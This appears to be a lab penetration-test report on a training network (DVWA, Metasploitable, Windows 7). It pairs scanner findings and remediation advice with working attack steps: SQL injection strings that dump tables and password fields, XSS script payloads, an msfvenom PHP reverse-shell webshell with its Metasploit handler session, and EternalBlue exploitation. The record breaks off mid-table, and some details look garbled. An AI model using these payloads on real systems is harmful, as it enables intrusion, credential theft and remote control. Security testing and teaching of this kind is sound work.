

# Final VAPT Report


**PREPARED BY**: Michael Cyber Defense
**Submitted To**: TechShield
**Submission Date**: 15.09.2025

*Sensitive: The information in this document is strictly confidential and is intended for \<COMPANY NAME\>*

# TABLE OF CONTENTS

EXECUTIVE SUMMARY 3

HIGH LEVEL ASSESSMENT OVERVIEW 4
* Observed Security Strengths 4
* Areas for Improvement 4
    - Short Term Recommendations 4
    - Long Term Recommendations 5

SCOPE 6
* Project Scope 6
* Network Information 6

TESTING METHODOLOGY 8

CLASSIFICATION DEFINITIONS 9
* Risk Classifications 9
* Exploitation Likelihood Classifications 9
* Business Impact Classifications 10
* Remediation Difficulty Classifications 10

ASSESSMENT FINDINGS 12

FORENSIC EVIDENCE COLLECTION AND ANALYSIS **Error! Bookmark not defined.**

APPENDIX A - TOOLS USED 13

APPENDIX B - ENGAGEMENT INFORMATION 14
* Client Information 14
* Version Information 14
* Contact Information 14


# EXECUTIVE SUMMARY

Michael Cyber Defense performed a security assessment of the internal corporate network of TechShield on September 3, 2025. Michael’ Cyber Defense’ penetration test simulated an attack from an external threat actor attempting to gain access to systems within the TechSchield’s corporate network. The purpose of this assessment was to discover and identify vulnerabilities in TechShield’s infrastructure and suggest methods to remediate the vulnerabilities. Michael Cyber Defense identified 4 vulnerabilities on Windows Workstation 192.168.57.20 and 55 vulnerabilities on the Application Server 192.168.57.30 with different severity levels, which gives a total of **59** vulnerabilities within the scope of the engagement; these are broken down by severity in the table below.


The highest severity vulnerabilities give potential attackers or intruders the opportunity to perform undesirable activities, such as running malicious code remotely on the systems, capitalizing on the End-of-Life Operating System that cannot obtain security patches for the specific purpose of correcting an observed weakness to prevent exploitation of the vulnerability. Based on the vulnerability detection results, provided by a powerful tool, named OpenVAS tool, the Windows 7 Operating System on the remote has reached the End-of-Life **{CVSS: 10.0}**, and is no longer eligible to receiving security patches issued by the vendor. Pertaining to the high vulnerability of the CVSS score, Microsoft Windows SMB Server was identified for multiple Vulnerabilities. The host is missing a critical update to the Microsoft Server and multiple flaws exist due to the way that Microsoft Server Message Block 1.0 (SMBv1) server handles certain requests. A successful exploitation of this will allow remote attackers to be able to execute codes on the target server, which could also lead to information disclosure from the server. In order to ensure data confidentiality, integrity, and availability, security remediations should be implemented as described in the security assessment findings.

Note that this assessment may not disclose all vulnerabilities that are present on the systems within the scope. Any changes made to the environment during the period of testing may affect the results of the assessment.


# HIGH LEVEL ASSESSMENT OVERVIEW

## Observed Security Strengths

Michael Cyber Defense identified the following strengths in TechShield’s network which greatly increases the security of the network. TechShield should continue to monitor these controls to ensure they remain effective.

### Security Strength

*   Configuration of a firewall to control the flow of information between computing devices and the internet
*   DVWA Damn Vulnerable Web Application Server is configured by default to high security mode, enhancing the ability to escape input field data and code execution to an extent. Although high security mode is not enough Attackers can still manage to escape or circumvent their input, Unicode, injection strings or other encodings that may end up defeating your sanitization input.
*   The printer server revealed no weaknesses or liability to no security flaws, which indicates a desired security configuration

## Areas for Improvement

Michael Cyber Defense recommends TechShield takes the following actions to improve the security of the network. Implementing these recommendations will reduce the likelihood that an attacker will be able to successfully attack TechShield’s information systems and/or reduce the impact of a successful attack.

## Short Term Recommendations

Michael Cyber Defense recommends TechShield take the following actions as soon as possible to minimize business risk.

### Security Patches and Hardening

* Apply vendor fix, in accordance to the vendor’s issuance of updates, against multiple flaws due to the way Microsoft Windows Server Message Block 1.0 (SmBv1) server handles request

Techshield CONFIDENTIAL Page 4

* Filter incoming traffic to port 135 for services running on the host via the TCP protocol
* Reverse and disable TCP timestamps on Windows system to mitigate uptime computing of the remote host

## Long Term Recommendations

Michael Cyber Defense recommends the following actions be taken over the next 6 months to fix hard-to-remediate issues that do not pose an urgent risk to the business.

* Upgrade all the End-of-Life operating systems to a version still support and receiving security patches by the vendor
* Regular Network auditing and Event Logging as a pre-planned monitoring method
* Installing firewalls and intrusion detection system
* Dedicate a portion of their network to a security structure called DMZ Demilitarized zone
    - Web Servers
    - Mail Servers
    - FTP servers
    - VoIP Servers
    - Implementation of Honeypots (Decoy server) as another perimeter network- security structure to lure attackers from gaining access to legitimate intranet resources
* Hardening security configurations of all old and newly installed operating systems in form of service packs, patches, and updates.
* Only allow input characters from a whitelist to be entered
* Escape input field data
* Disabling of nonessential services, unnecessary software and Operating System (OS) default features
* The use of Anti-Malware software
* We additionally recommend performing a retest to ensure that the proposed countermeasures are effective and the risk is successfully mitigated, which Michael Cyber Defense will be honored to conduct again when needed.


# SCOPE

## Project Scope

All testing was based on the scope as defined in the Request for Proposal (RFP) and official written communications. The items in scope are listed below.

*   Web Server
*   Database Server
*   Centralized Directory
*   Or Campus Network (LAN)

## Network Information


<table>
  <thead>
    <tr>
        <th>Network</th>
        <th>Note</th>
    </tr>
  </thead>
  <tbody>
    <tr>
        <td>192.168.57.20</td>
        <td>Victim-Laptop</td>
    </tr>
    <tr>
        <td>192.168.57.30</td>
        <td>Web Application-Server (DVWA)</td>
    </tr>
    <tr>
        <td>192.168.57.40</td>
        <td>OpenVAS/Greenbone</td>
    </tr>
    <tr>
        <td>192.168.57.250</td>
        <td>Printer</td>
    </tr>
    <tr>
        <td>192.168.57.254</td>
        <td>Router/Firewall</td>
    </tr>
    <tr>
        <td>192.168.57.10</td>
        <td>Penetration Tester</td>
    </tr>
  </tbody>
</table>


```description
A thick blue horizontal line is located at the top left of the page.
```


# TESTING METHODOLOGY

Michael Cyber Defense’s testing methodology was split into three phases: *Reconnaissance*, *Target Assessment*, and *Execution of Vulnerabilities*. During reconnaissance, we gathered information about Techshield’s network systems. Michael Cyber Defense used port scanning and other enumeration methods to refine target information and assess target values. Next, we conducted our targeted assessment. Michael Cyber Defense simulated an attacker exploiting vulnerabilities in the Techshield network. Michael Cyber Defense gathered evidence of vulnerabilities during this phase of the engagement while conducting the simulation in a manner that would not disrupt normal business operations.

The following image is a graphical representation of this methodology.





# CLASSIFICATION DEFINITIONS

## Risk Classifications


<table>
  <thead>
    <tr>
        <th>Level</th>
        <th>Score</th>
        <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
        <td>Critical</td>
        <td>10</td>
        <td>The vulnerability poses an immediate threat to the organization. Successful exploitation may permanently affect the organization. Remediation should be immediately performed.</td>
    </tr>
    <tr>
        <td>High</td>
        <td>7-9</td>
        <td>The vulnerability poses an urgent threat to the organization, and remediation should be prioritized.</td>
    </tr>
    <tr>
        <td>Medium</td>
        <td>4-6</td>
        <td>Successful exploitation is possible and may result in notable disruption of business functionality. This vulnerability should be remediated when feasible.</td>
    </tr>
    <tr>
        <td>Low</td>
        <td>1-3</td>
        <td>The vulnerability poses a negligible/minimal threat to the organization. The presence of this vulnerability should be noted and remediated if possible.</td>
    </tr>
    <tr>
        <td>Informational</td>
        <td>0</td>
        <td>These findings have no clear threat to the organization but may cause business processes to function differently than desired or reveal sensitive information about the company.</td>
    </tr>
  </tbody>
</table>

## Exploitation Likelihood Classifications


<table>
  <thead>
    <tr>
        <th>Likelihood</th>
        <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
        <td>Likely</td>
        <td>Exploitation methods are well-known and can be performed using publicly available tools. Low-skilled attackers and automated tools could successfully exploit the vulnerability with minimal difficulty.</td>
    </tr>
    <tr>
        <td>Possible</td>
        <td>Exploitation methods are well-known, may be performed using public tools, but require configuration. Understanding of the underlying system is required for successful exploitation.</td>
    </tr>
    <tr>
        <td>Unlikely</td>
        <td>Exploitation requires deep understanding of the underlying systems or advanced technical skills. Precise conditions may be required for successful exploitation.</td>
    </tr>
  </tbody>
</table>


# Business Impact Classifications


# Remediation Difficulty Classifications


# ASSESSMENT FINDINGS


      

# Network Vulnerability Assessment, Scanning & Enumeration

## Phase 1 of the Testing Methodology


# 1 - Vulnerability Finding: End-Of-Live OS


### Synopsis

The vulnerability detection results revealed that the Windows 7 Operating System on the remote has reached the End-Of-Life, dating back to 2013-04-09, which could unleash a fusillade of exploitable channels for attackers to compromise the Confidentiality, Integrity and Availability (CIA) of the environment and the data contained therein.

### Analysis

A credential scan is performed with the OpenVas/Greenbone tool against the Windows Workstation 192.168.57.20 as the targeted host. This was detected by OS Detections Consolidation and Reporting (OID). EOL Info: https://support.microsoft.com/en-us/lifecycle/search?sort=PN&alpha=Windows%207%FilterNO


# SUGGESTED REMEDIATION

## Recommendations

* Remove End-Of-Life OS for decommissioning to make things more secure
* If decommissioning of the vulnerable systems requires more time, apply security patches
* Regular Network auditing and Event Logging as a pre-planned monitoring method
* Installing firewalls and intrusion detection system

# 2 - Vulnerability Finding: Multiple Vulnerabilities on Microsoft Windows Server Message Block 1.0 (SmBv1)


### Synopsis
The vulnerability detection results depicts that this host is missing a critical update to Microsoft Bulleting MS17-010. The most severe of this vulnerability could create a dire window of opportunity for attackers to send specially crafted messages to the Microsoft Server Message Block 1.0 (SMBv1) server to execute remote code on the target server, which could also lead to information disclosure from the server.

### Analysis
During the credential scan, OpenVAS/Greenbone tool identified that the targeted host is missing a critical update to Microsoft Bulleting MS17-010 and several flaws exist due to the way that Microsoft Server Message Block 1.0 (SMBv1) server handles certain requests. OpenVAS’s vulnerability detection methodology was based on sending the crafted SMB transaction request with fid = 0 and check the response to confirm the vulnerability. **(References: CVE-2017-0143, CVE-2017-0144, CVE-2017-0145, CVE-2017-f0146, CVE-2017-0147, CVE-2017-0148)**


# SUGGESTED REMEDIATION

## Recommendations

* Apply vendor fix on the affected software / OS and refer to updates released by the vendor Final VAPT Report_MichaelSalaja_2025-09-16 Final VAPT Report_MichaelSalaja_2025-09-16

> ### Affected Software/OS
> - Microsoft Windows 10 x32/x64
> - Microsoft Windows Server 2012
> - Microsoft Windows Server 2016
> - Microsoft Windows 8.1 x32/x64
> - Microsoft Windows Server 2012 R2
> - Microsoft Windows 7 x32/x64 Service Pack 1
> - Microsoft Windows Vista x32/x64 Service Pack 2
> - Microsoft Windows Server 2008 R2 x64 Service Pack 1
> - Microsoft Windows Server 2008 x32/x64 Service Pack 2

*Figure 1.2.2.: List of affected Software/Operating Systems*

* Use the Support customization packet (validation tool) to verify if the patch is installed: this tool also provides the option to disable SMBv1 via registry as a workaround solution.

# 3 - Vulnerability Finding: Distributed Computing Environment / Remote Procedure Calls (DCE/RPC) Services Enumeration Reporting


### Synopsis
Distributed Computing Environment / Remote Procedure Calls DCE/RPC services running on the remote host can be enumerated by connecting on port 135 and doing the appropriate queries. The impact is that an attacker may use this fact to gain more knowledge about the remote host and reveal vulnerable applications and expand the attack surface.

### Analysis
OpenVAS/Greenbone tool identified and enlisted services running via the TCP protocol:

* Port 49152/tcp > Port 491567/tcp

This process works by querying the DCE/RPC portmapper service on port 135, which then provides a list of other services and their endpoints. The risk lies in the potential for information leakage, as this information can be used to identify exploitable services, and DCE/RPC traffic is often considered normal, making it harder for detection systems to flag.


# SUGGESTED REMEDIATION

## Recommendation:

* Implement firewall rules to filter incoming traffic to this port 135 and restrict access to local networks only
* Allow access to port 135 only from internal, trusted IP addresses
* Determine if DCE/RPC services are truly necessary for the environment. If not, disable them to reduce the attack surface.
* Ensure DCE/RPC services are updated to the latest versions to address known vulnerabilities

# 4 - Vulnerability Finding: Transport Control Protocol (TCP) Timestamps</mark>


### Synopsis
The remote host implements TCP timestamps and therefore allows to compute the uptime. The side effect of this feature is that the uptime of the remote can sometimes be computed.

### Analysis
The credential scan on OpenVAS/Greenbone detected vulnerability pertaining to TCP Timestamps. As a vulnerability detection method, special IP packets were forged and sent with a little delay in between to the target IP. Several timestamps were retrieved with a delay of 1 seconds in between:
1. Packet 1: 395085
2. Packet 2: 395195

# SUGGESTED REMEDIATION

## Recommendation:

* To disable TCP timestamps on Windows, we execute `netsh int tcp set global timestamps=disabled`
* Use Timestamp options only when TCP peer that is initiating communication includes them in their synchronize (SYN) segment, given that the default behavior of the TCP/IP stack on the systems is not to use the timestamps options when initiating TCP connections.

**pentester-advanced** [Enforce US Keyboard Layout] [View Fullscreen] [Send Ctrl+Alt+Delete] [Reboot]


# Greenbone Security Manager

**Dashboards** | **Scans** | **Assets** | **Resilience** | **SecInfo** | **Configuration** | **Administration** | **Help**

## Report: Wed, Sep 3, 2025 2:49 PM UTC [Done]
**ID:** a8a24264-39f9-46ef-a8a5-86e085cb29db | **Created:** Wed, Sep 3, 2025 2:50 PM UTC | **Modified:** Wed, Sep 3, 2025 2:55 PM UTC | **Owner:** student

### Tabs
*   **Information**
*   **Results** (4 of 22)
*   **Hosts** (1 of 1)
*   **Ports** (2 of 4)
*   **Applications** (0 of 0)
*   **Operating Systems** (1 of 1)
*   **CVEs** (1 of 1)
*   **Closed CVEs** (11 of 11)
*   **TLS Certificates** (0 of 0)
*   **Error Messages** (0 of 0)
*   **User Tags** (0)

### Vulnerability Results
<table>
  <thead>
    <tr>
        <th>Vulnerability</th>
        <th>Severity ▼</th>
        <th>QoD</th>
        <th>Host IP</th>
        <th>Location Name</th>
        <th>Created</th>
    </tr>
  </thead>
  <tbody>
    <tr>
        <td>OS End Of Life Detection</td>
        <td>10.0 (High)</td>
        <td>80 %</td>
        <td>192.168.57.20</td>
        <td>general/tcp</td>
        <td>Wed, Sep 3, 2025 2:52 PM UTC</td>
    </tr>
    <tr>
        <td>Microsoft Windows SMB Server Multiple Vulnerabilities-Remote (4013389)</td>
        <td>8.1 (High)</td>
        <td>95 %</td>
        <td>192.168.57.20</td>
        <td>445/tcp</td>
        <td>Wed, Sep 3, 2025 2:55 PM UTC</td>
    </tr>
    <tr>
        <td>DCE/RPC and MSRPC Services Enumeration Reporting</td>
        <td>5.0 (Medium)</td>
        <td>80 %</td>
        <td>192.168.57.20</td>
        <td>135/tcp</td>
        <td>Wed, Sep 3, 2025 2:53 PM UTC</td>
    </tr>
    <tr>
        <td>TCP timestamps</td>
        <td>2.6 (Low)</td>
        <td>80 %</td>
        <td>192.168.57.20</td>
        <td>general/tcp</td>
        <td>Wed, Sep 3, 2025 2:52 PM UTC</td>
    </tr>
  </tbody>
</table>
(Applied filter: apply_overrides=0 levels=hml rows=100 min_qod=70 first=1 sort-reverse=severity)

*Figure 1.2.4.: TCP Timestamp vulnerability*

## Phase 2 of the Testing Methodology

# Web Application Security Testing (Application Server)

## SQL Injection

SQL injection is a dangerous vulnerability found in web applications, which a pen tester can exploit to inject malicious SQL statements via input fields. This vulnerability can lead to severe consequences, such as unauthorized disclosure of sensitive information, including personal data, passwords, or financial records. A pen tester can use this weakness to gain access to sensitive information, alter data, or even take complete control of the web application.

## Finding 1: Performed DVWA SQL injection by enumerating databases/columns

**Step 1:**

The security level was set to low and submitted to undermine the magnitude of the default security level before attempting a step-step approach to exploit SQL injection in the DVWA

# Why is it necessary?

The Low security level is completely vulnerable and has no security measures at all. Its use is to be as an example of how vulnerable web applications are.


**Step 2:**
On the DVWA database (192.168.57.30), 1' is typed in the **User ID** to detect **SQL** injection vulnerabilities in the target **URL**. A **SQL** syntax error was displayed to confirm the plausibility to bypass authentication and enumerate the database structure.


**Step 3:**

To have the application server display all users and their surnames, the Michael Cyber Defense enters **'or '1' = '1** in the User ID field. The figure below depicts the list of all users' first names and last names.


### Step 4: Database Enumeration

To continuously exploit the vulnerability, `'Union Select @@version, null #` is entered in the **User ID** to enumerate the database and access the database version.

#### Version

> *Database version: 5.0.51a-3ubuntu5*

Damn Vulnerable Web Application (DVWA) v1.0.7


### Step 5:

Michael Cyber Defense extracted all the data tables from the database in the information schema by entering

**' and 1 = 0 union select null, table_name from information_schema.tables #** in the User ID field.

### Result

* 336 tables of information-Schema were retrieved in total

Information Schema > SQL metadata


**Vulnerability: SQL Injection**

**User ID:**      [Submit]

**ID:** 'and 1 = 0 union select null, table_name from information_schema.tables # #
**First name:**
**Surname:** CHARACTER_SETS

**ID:** 'and 1 = 0 union select null, table_name from information_schema.tables # #
**First name:**
**Surname:** COLLATIONS

**ID:** 'and 1 = 0 union select null, table_name from information_schema.tables # #
**First name:**
**Surname:** COLLATION_CHARACTER_SET_APPLICABILITY

**ID:** 'and 1 = 0 union select null, table_name from information_schema.tables # #
**First name:**
**Surname:** COLUMNS

**ID:** 'and 1 = 0 union select null, table_name from information_schema.tables # #
**First name:**
**Surname:** COLUMN_PRIVILEGES

**ID:** 'and 1 = 0 union select null, table_name from information_schema.tables # #
**First name:**
**Surname:** KEY_COLUMN_USAGE

**ID:** 'and 1 = 0 union select null, table_name from information_schema.tables # #
**First name:**
**Surname:** PROFILING

**ID:** 'and 1 = 0 union select null, table_name from information_schema.tables # #
**First name:**
**Surname:** ROUTINES

**ID:** 'and 1 = 0 union select null, table_name from information_schema.tables # #
**First name:**
**Surname:** SCHEMATA

**ID:** 'and 1 = 0 union select null, table_name from information_schema.tables # #
**First name:**
**Surname:** SCHEMA_PRIVILEGES

**ID:** 'and 1 = 0 union select null, table_name from information_schema.tables # #
**First name:**
**Surname:** STATISTICS

**ID:** 'and 1 = 0 union select null, table_name from information_schema.tables # #
**First name:**
**Surname:** TABLES

**ID:** 'and 1 = 0 union select null, table_name from information_schema.tables # #
**First name:**
**Surname:** TABLE_CONSTRAINTS

**ID:** 'and 1 = 0 union select null, table_name from information_schema.tables # #
**First name:**
**Surname:** TABLE_PRIVILEGES

**ID:** 'and 1 = 0 union select null, table_name from information_schema.tables # #
**First name:**
**Surname:** TRIGGERS

**ID:** 'and 1 = 0 union select null, table_name from information_schema.tables # #
**First name:**
**Surname:** USER_PRIVILEGES

**ID:** 'and 1 = 0 union select null, table_name from information_schema.tables # #
**First name:**
**Surname:** VIEWS

...

**ID:** 'and 1 = 0 union select null, table_name from information_schema.tables # #
**First name:**
**Surname:** tiki_user_votings

**ID:** 'and 1 = 0 union select null, table_name from information_schema.tables # #
**First name:**
**Surname:** tiki_user_watches

**ID:** 'and 1 = 0 union select null, table_name from information_schema.tables # #
**First name:**
**Surname:** tiki_userfiles

**ID:** 'and 1 = 0 union select null, table_name from information_schema.tables # #
**First name:**
**Surname:** tiki_userpoints

**ID:** 'and 1 = 0 union select null, table_name from information_schema.tables # #
**First name:**
**Surname:** tiki_users

**ID:** 'and 1 = 0 union select null, table_name from information_schema.tables # #
**First name:**
**Surname:** tiki_users_score

**ID:** 'and 1 = 0 union select null, table_name from information_schema.tables # #
**First name:**
**Surname:** tiki_webmail_contacts

**ID:** 'and 1 = 0 union select null, table_name from information_schema.tables # #
**First name:**
**Surname:** tiki_webmail_messages

**ID:** 'and 1 = 0 union select null, table_name from information_schema.tables # #
**First name:**
**Surname:** tiki_wiki_attachments

**ID:** 'and 1 = 0 union select null, table_name from information_schema.tables # #
**First name:**
**Surname:** tiki_zones

**ID:** 'and 1 = 0 union select null, table_name from information_schema.tables # #
**First name:**
**Surname:** users_grouppermissions

**ID:** 'and 1 = 0 union select null, table_name from information_schema.tables # #
**First name:**
**Surname:** users_groups

**ID:** 'and 1 = 0 union select null, table_name from information_schema.tables # #
**First name:**
**Surname:** users_objectpermissions

**ID:** 'and 1 = 0 union select null, table_name from information_schema.tables # #
**First name:**
**Surname:** users_permissions

**ID:** 'and 1 = 0 union select null, table_name from information_schema.tables # #
**First name:**
**Surname:** users_usergroups

**ID:** 'and 1 = 0 union select null, table_name from information_schema.tables # #
**First name:**
**Surname:** users_users

**More info**
* http://www.securiteam.com/securityreviews/5DP0N1P76E.html
* http://en.wikipedia.org/wiki/SQL_injection
* http://www.unixwiz.net/techtips/sql-injection.html

**Username:** admin
**Security Level:** low
**PHPIDS:** disabled


### Step 6

To extract column names from the "user" table, a data input is executed with the query: **`%' and 1=0 union select null, concat (first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #`**

Damn Vulnerable Web Application (DVWA) v1.0.7


### Result
The application displayed the requested database and column names, confirming the vulnerability. This could be used to extract all data from the database

### Severity: High

### Remediation:
* Implement prepared statements (parameterized queries) to separate SQL code from user-supplied data.
* Enforce strict input validation on all user inputs.
* Use the principle of least privilege for database accounts, ensuring the web application's user cannot access sensitive system information.
* WAF

Finding 2: Performed DVWA Stored Cross-Site Scripting (XSS):

**Description:** The guestbook feature is susceptible to Stored XSS. This vulnerability allows an attacker to inject malicious scripts into the application's database. When an unsuspecting user views the page, the stored script is executed in their browser, potentially leading to session hijacking, defacement, or malware delivery.

### Step 1 Payload Input

To sign the guestbook, a simple JavaScript payload was used in the ‘Name’ and ‘Message’ field of the guestbook.

> Payload: **Name:** *Mike 1*
>
> **Message:** *\<script>alert(“Ucertify”)\</script>*


**Result:**

Upon submitting the guestbook entry, the script was stored in the database. When any user, including an administrator, navigated to the guestbook page, the alert box popped up.


### Remediation:

*   Implement robust output encoding to convert special characters into their HTML entity equivalents before rendering user input on the page.
*   Enforce strict input validation and sanitization.
*   Utilize a Content Security Policy (CSP) to restrict which scripts are allowed to execute on the page.

### Step 2: Reflected Cross Site Scripting was performed

**Cross-site scripting (XSS)** is a type of web application vulnerability that allows an attacker to inject malicious code into a vulnerable web application. XSS attacks can be used to steal user data, hijack user sessions, and even execute malicious code on the victim's computer.

Stored XSS payload was utilized to have the session cookies displayed

Payload Input: `<script>alert(document.cookies)</script>`


### Finding 3: Insecure File Upload (PHP Webshell)

The application's file upload functionality does not properly validate file types, allowing an attacker to upload a malicious PHP script (a webshell) to the server. The webshell provides the attacker with a backdoor to execute arbitrary OS commands on the serve it creates the shell automatically from the prebuilt shells in Metasploit.

A PHP webshell is a powerful tool for defense and it is essentially a script that allows remote command execution on a server. Penetration testers and ethical hackers use them to identify and fix vulnerabilities.

**Step 1:**
A PHP webshell was successfully created by entering the following command in the terminal:

msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.57.10 LPORT=6666 -f raw > shell.php


### Step 2

The security level on DVWA was set to low and submitted to undermine the magnitude of the default security level on DVWA. The created PHP file was uploaded successfully


### Step 3

Msfconsole was used to:

*   exploit multi handler
*   set payload php/meterpreter/reverse_tcp
*   set LHOST 192.168.57.10
*   set LPORT 6666
*   run


### Step 4

The Current DVWA web was duplicated and the full file path of where the file is stored on the system was copied and added to a new duplicated web. A reverse connection was triggered from the shell link.


### Step 5

Triggering the reverse connection enabled the meterpreter session to be established;

*Sysinfo* was typed in to see the detailed information about the metasploitable Linux operating system


```description
Screenshot of a virtual machine terminal (Kali Linux) showing the use of msfvenom to create a PHP reverse shell, followed by setting up a Metasploit multi/handler to receive the connection. A web browser window in the background shows a "Vulnerability: File Upload" page where the shell was presumably uploaded. The terminal shows a successful Meterpreter session being opened and the output of the 'sysinfo' command.
```

**kali@attacker:~**
File Actions Edit View Help

**(kali@attacker)-[~]**
$ `msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.57.10 LPORT=4444 -f raw > shell.php`
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1114 bytes

**(kali@attacker)-[~]**
$ `msfconsole`

```text
       < dangling MSF logo ASCII art >
       =[ metasploit v6.3.16-dev                        ]
+ -- --=[ 2315 exploits - 1208 auxiliary - 412 post       ]
+ -- --=[ 975 payloads - 46 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                      ]

Metasploit tip: View all productivity tips with the
tips command
Metasploit Documentation: https://docs.metasploit.com/
```

msf6 > `use exploit/multi/handler`
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > `set payload php/meterpreter/reverse_tcp`
payload => php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > `set LHOST 192.168.57.10`
LHOST => 192.168.57.10
msf6 exploit(multi/handler) > `set LPORT 4444`
LPORT => 4444
msf6 exploit(multi/handler) > `run`

<mark>
[*] Started reverse TCP handler on 192.168.57.10:4444 
[*] Sending stage (39927 bytes) to 192.168.57.30
[*] Meterpreter session 1 opened (192.168.57.10:4444 -> 192.168.57.30:49432) at 2025-09-09 06:39:48 -0400

meterpreter > `sysinfo`
**Computer**        : metasploitable
**OS**              : Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686
**Meterpreter**     : php/linux
meterpreter > 
</mark>


Phase 3 of the Testing Methodology

# Password Security Testing & Hash Cracking and Analysis


### Task 1: Exploiting a Windows system with EternalBlue via Metasploit

The assessment focused on two distinct but interconnected attack vectors: the exploitation of a known system vulnerability and the compromise of user credentials. The findings from this assessment are grave. The security posture of the environment is assessed as Extreme; a determination reached through the successful execution of a complete attack chain. The assessment identified two critical findings that, when combined, facilitated a total compromise of the target system. The initial finding revealed the presence of the unpatched Microsoft SMBv1 Remote Code Execution vulnerability (CVE-2017-0144), commonly known as EternalBlue. The successful exploitation of this flaw granted an attacker initial access to the system with the highest level of administrative privileges.

The second critical finding was the successful compromise of multiple user accounts due to the presence of weak password management policies. This was not an isolated event; it was made possible by the initial EternalBlue compromise, which provided the foothold necessary to enumerate user accounts and then

perform a targeted brute-force attack against the exposed SMB service. The interconnected nature of these two vulnerabilities highlights a systemic failure in both patch management and security policy enforcement. The overall risk is compounded because a single, easily exploitable flaw provided the means to bypass a secondary security control, thereby allowing for lateral movement and further compromise.

### Key Findings and Risk Distribution

#### Step 1
Metasploit is used to exploit the EternalBlue vulnerability in a target system for educational purpose by typing in search eternal, which, then, provided 5 Matching Modules


#### Step 2: SMB MS17-010 Scanner
The search defaulted to ***Windows/x64/meterpreter/reverse_tcp***, for which I set the target host with the IP address ***RHOST 192.168.57.20*** and the Local Host with the IP address ***192.168.57.10***, to exploit the vulnerability.

Result: The session of the reverse TCP handler on ***192.168.57.10***, successfully started, which gave an overview of all servers, one of which is vulnerable.


### Step 3: Post-Exploitation with Meterpreter - System Information

After successfully exploiting a target system using Metasploit's Meterpreter, it's essential to gather system information to better understand the compromised host. The *sysinfo* command, which is a useful tool for retrieving key information about the target system, was used to extract the above-mentioned info.


### Step 4

The **ps** command was executed to check the status of active processes on a system, as well as display technical information about the processes: Info about the Process Identifier (PID and PPID, The Parent Process Identifier etc.)


<table>
  <thead>
    <tr>
        <th>PID</th>
        <th>PPID</th>
        <th>Name</th>
        <th>Arch</th>
        <th>Session</th>
        <th>User</th>
        <th>Path</th>
    </tr>
  </thead>
  <tbody>
    <tr>
        <td>0</td>
        <td>0</td>
        <td>[System Process]</td>
        <td></td>
        <td></td>
        <td></td>
        <td></td>
    </tr>
    <tr>
        <td>4</td>
        <td>0</td>
        <td>System</td>
        <td>x64</td>
        <td>0</td>
        <td></td>
        <td></td>
    </tr>
    <tr>
        <td>260</td>
        <td>4</td>
        <td>smss.exe</td>
        <td>x64</td>
        <td>0</td>
        <td>NT AUTHORITY\SYSTEM</td>
        <td>\SystemRoot\System32\smss.exe</td>
    </tr>
    <tr>
        <td>288</td>
        <td>1408</td>
        <td>GoogleCrashHandler64.exe</td>
        <td>x64</td>
        <td>0</td>
        <td>NT AUTHORITY\SYSTEM</td>
        <td>C:\Program Files (x86)\Google\Update\1.3.36.372\GoogleCrashHandler64.exe</td>
    </tr>
    <tr>
        <td>336</td>
        <td>328</td>
        <td>csrss.exe</td>
        <td>x64</td>
        <td>0</td>
        <td>NT AUTHORITY\SYSTEM</td>
        <td>C:\Windows\system32\csrss.exe</td>
    </tr>
    <tr>
        <td>384</td>
        <td>492</td>
        <td>svchost.exe</td>
        <td>x64</td>
        <td>0</td>
        <td>NT AUTHORITY\NETWORK SERVICE</td>
        <td></td>
    </tr>
    <tr>
        <td>388</td>
        <td>328</td>
        <td>wininit.exe</td>
        <td>x64</td>
        <td>0</td>
        <td>NT AUTHORITY\SYSTEM</td>
        <td>C:\Windows\system32\wininit.exe</td>
    </tr>
    <tr>
        <td>400</td>
        <td>380</td>
        <td>csrss.exe</td>
        <td>x64</td>
        <td>1</td>
        <td>NT AUTHORITY\SYSTEM</td>
        <td>C:\Windows\system32\csrss.exe</td>
    </tr>
    <tr>
        <td>448</td>
        <td>380</td>
        <td>winlogon.exe</td>
        <td>x64</td>
        <td>1</td>
        <td>NT AUTHORITY\SYSTEM</td>
        <td>C:\Windows\system32\winlogon.exe</td>
    </tr>
    <tr>
        <td>492</td>
        <td>388</td>
        <td>services.exe</td>
        <td>x64</td>
        <td>0</td>
        <td>NT AUTHORITY\SYSTEM</td>
        <td>C:\Windows\system32\services.exe</td>
    </tr>
    <tr>
        <td>508</td>
        <td>388</td>
        <td>lsass.exe</td>
        <td>x64</td>
        <td>0</td>
        <td>NT AUTHORITY\SYSTEM</td>
        <td>C:\Windows\system32\lsass.exe</td>
    </tr>
    <tr>
        <td>516</td>
